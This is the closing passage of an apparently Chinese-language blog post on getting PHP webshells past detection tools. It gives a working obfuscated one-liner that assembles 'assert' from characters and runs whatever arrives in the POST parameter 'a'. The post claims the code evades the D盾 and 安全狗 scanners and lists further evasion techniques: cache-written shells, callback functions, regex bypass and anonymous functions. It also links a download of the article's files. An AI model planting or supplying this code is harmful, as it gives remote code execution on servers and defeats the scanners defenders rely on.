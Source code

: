 ```
$payload = $str[4].$str[15].$str[15]."ert";//assert
$a = $_POST['a'];@$payload($a=$a);
?>
```

效果如下：

![][14]

这样子也可以 bypass D 盾安全狗 等。

Bypass 的思路还有：

- 缓存写 webshell
- 回调函数
- 正则匹配绕过
- 匿名函数

本文所有文件已打包：https://www.lanzous.com/i2xe6pa

[1]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_105221.png
[2]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_105621.png
[3]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_110137.png
[4]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_111310.png
[5]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_111844.png
[6]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_113023.png
[7]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_113320.png
[8]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_113642.png
[9]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_113902.png
[10]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_114323.png
[11]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_115928.png
[12]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_120233.png
[13]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_120507.png
[14]: https://img.soapffz.com/archives_img/2019/01/20/archives_20190120_131752.png